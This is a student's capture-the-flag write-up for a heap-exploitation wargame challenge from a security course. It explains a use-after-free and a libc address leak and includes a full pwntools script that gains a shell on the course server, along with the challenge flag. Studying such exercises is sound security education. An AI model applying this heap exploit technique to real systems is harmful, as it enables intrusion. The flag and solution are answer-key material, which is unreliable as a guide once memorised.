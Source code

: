 heap 3 | `babys_first_3`
===========================

Flag: `6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}`

General overview of problems faced
-------------------------------------
Had an issue where I was sending 1 extra byte because of the newline being sent with the input when using `sendlineafter()`

List of vulnerabilities
--------------------
1. `Use after free`: It is possible to create a fish, delete it and then view it after it has been deleted and the allocatd bin has been freed.
2. When deleting a fish and freeing an allocated bin, the data is not overwriten/removed from memory. Therefore allocating another bin to the same address allows memory leaks and overwriting of addresses which might still be used because of the UAF vulnerability
3. The heap contains a pointer to the `fputs` function addresses which is used during program execution
4. `Memory leak`: it is possible to leak libc memory addresses which can then be used to calculate `system` and `bin_sh_string` address from it.

Steps to exploit
------------------
1. Create a fish at position 0 with any size, weight and name
2. Delete the fish at position 0
3. Create a fish at position 1 with any size and weight and a name 8 bytes long such as "AAAAAAA\n"
4. View fish at position 1 and record the memory address leaked. (this is the address of fputs)
5. Use a libc database to find the offsets based on the leaked fputs address and the corresponding libc version.
6. calculate the system and "/bin/sh" string libc addresses using the offsets and the fputs address
7. Update the fish's name at position 1 to be : 8 bytes of offset + the address of system in little endian format + the address of bin/sh in little endian format
8. View fish at position 0
9. Congratulations you now have a shell!

Script/Command used
------------------
```python
from pwn import *

# Flag: 6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}

p = remote('wargames.6447.sec.edu.au', 9003)

p.sendlineafter("> ", "1") # create a fish
p.sendlineafter("> ", "0") # at position 0
p.sendlineafter("> ","10") # size
p.sendlineafter("> ","10") # weight
p.sendlineafter("> ","AAAA") # name

p.sendlineafter("> ","4") # delete fish
p.sendlineafter("> ","0") # at position 0

p.sendlineafter("> ","1") # create a fish
p.sendlineafter("> ","1") # at position 1
p.sendlineafter("> ","9") # size
p.sendlineafter("> ","9") # weight
p.sendlineafter("> ","A"*7) # name

p.sendlineafter("> ","3") # view fish
p.sendlineafter("> ","1") # at position 1

mem_leak = p.recvuntil("> ") # receive memory address leak

print mem_leak

leak = mem_leak[8:12].encode("hex")
leak = "".join([leak[i:i+2] for i in range(0, len(leak), 2)][::-1])
leak = int(leak, 16)

system = leak + -0x23d40
bin_sh = leak + 0x1008af

print hex(leak), hex(system), hex(bin_sh)

p.sendline("2") # update a fish
p.sendlineafter("> ","1") # at position 1
p.sendlineafter("> ","115") # size
p.sendlineafter("> ","115") # weight
p.sendlineafter("> ", 'A' * 8 + p32(system) + p32(bin_sh)) # name

p.sendlineafter("> ","3") # view fish
p.sendlineafter("> ","0") # at position 0

print "BOOYYYYAAAAAH! Shell acquired!"
p.interactive()
```


